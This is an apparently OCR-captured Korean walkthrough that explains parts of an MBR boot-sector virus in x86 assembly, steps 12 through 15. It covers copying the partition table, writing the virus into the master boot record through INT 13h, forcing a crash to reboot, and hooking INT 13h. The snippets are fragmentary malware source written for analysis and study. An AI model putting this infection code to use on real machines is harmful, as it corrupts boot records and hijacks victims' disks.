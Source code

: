 **⭐ STEP 12**  
다음 코드는 바이러스가 잘 동작하기 위해 원본 파티션 정보를 바이러스 파티션 정보에 덮어쓰는 과정이다.
``` asm
infectharddisk:
			...
		mov     si,200h+offset partitioninfo
		mov     di,offset partitioninfo
		mov     cx,21h
		rep     movsw

```
* si에 여분 공간의 원본 MBR 데이터 속 파티션 정보들의 오프셋을 넣는다.
* di에 바이러스의 파티션 정보의 오프셋을 넣는다.
* cx에 21h를 넣어 21h 만큼 반복시킨다. MBR(512B)-MBRcode(446B) = 66B = 33word(21h)
* 원본 파티션 정보를 바이러스 파티션 정보에 덮어쓴다.

**⭐ STEP 13**  
다음 코드는 실제 MBR에 바이러스를 삽입하는 과정이다.
``` asm
infectharddisk:
			...
		mov     ax,301h
		xor     bx,bx
		inc     cl
		int     13h
```
* ax에 301h를 넣어 3번함수를 지정하고, 1개의 섹터 수를 지정한다.
* bx를 초기화하여 오프셋을 0을 가리키도록 지정한다.
* cl을 1 증가시켜 1번 섹터를 가리키도록 지정한다.
* 인터럽트 13번의 3번함수를 통해 디스크 MBR CHS(0,0,1)에 바이러스를 넣는다.

**⭐ STEP 14**  
다음 코드는 시스템 크래시를 고의적으로 발생시켜 재부팅 시키는 과정이다. 별도의 코드 없이 재검사를 실시할 수 있다.
``` asm
infectharddisk:
			...
		jmp     short 01E0h
		db      0EBh, 32h
```
* 파티션 정보가 담긴 위치로 점프한다.
* 파티션 정보는 코드가 아닌 데이터이므로 시스템 크래시가 발생되어 재부팅한다

**⭐ STEP 15**  
다음 코드부터는 해커가 후킹하려고 하는 새로운 인터럽트 13의 코드 내용이다. 아래 코드는 기본 드라이브인지 아닌지 체크해서 기본 드라이브가 아니면 정상적인 인터럽트를 실행하는 exitint13h를 호출한다.
``` asm
int13h:
		push    ds
		push    ax
		or      dl, dl   
		jnz     exitint13h         ; 기본 드라이브가 아니라면 패스
```
* ds를 백업한다.
* ax를 백업한다.
* or연산을 통해 dl이 0인지 아닌지 확인한다(제로 플래그)
* 기본 드라이브(0)이 아니라면 exitint13h로 분기
